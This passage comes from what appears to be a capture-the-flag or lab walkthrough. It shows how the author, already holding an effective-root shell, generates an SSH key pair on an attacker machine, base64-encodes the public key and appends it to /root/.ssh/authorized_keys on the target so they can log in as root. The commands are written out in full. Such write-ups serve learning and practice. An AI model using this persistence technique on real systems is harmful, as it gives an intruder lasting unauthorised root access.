 ### SSH as root

It's always great to pop a root shell, but in this case we only have the euid set to `root`. And as a result, I'm limited to just one terminal pane within `tmux`. I know I could easily privilege escalate in the same way on other panes, but for sake of practice I'll try planting a new SSH key as `root`, and logging in through that - that way I can have a whole `tmux` session as `root`. 

First, I'll generate a new RSA key on my attacker box. I've used the passphrase 'password':

```bash
ssh-keygen
```

```
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): ./id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./id_rsa
Your public key has been saved in ./id_rsa.pub
The key fingerprint is:
SHA256:5dgcDwPs8DrDVKnxmGEmXiFxt37r/M0FztaT78Qrn8k kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|    o.ooo.       |
|    .oB.+o       |
|   . = %. =      |
|    . =.+* =     |
|     o .S = . .  |
|      =  . . o +.|
|       o  .   +o=|
|         o   =.o*|
|          o.. =Eo|
+----[SHA256]-----+
```

Then I'll lock down the permissions on the key. Just for practice I'll also base-64 encode it (so that the whole public key could be copy-pasted through a dumb shell, if need be):

```bash
chmod 700 id_rsa
base64 -w 0 id_rsa.pub > id_rsa.pub.b64
cat id_rsa.pub.b64 [copy to clipboard]
```

Now, on the target machine (in the euid `root` shell), echo the public key into `/root/.ssh/authorized_keys`:
*I've omitted the middle part of the pub key so that it can fit on one line, for demonstration purposes*

```
echo "c3NoLXJz...saQo=" | base64 --decode >> /root/.ssh/authorized_keys
```

Then, just log in as root using SSH, using `id_rsa` and the passphrase used to generate the key:
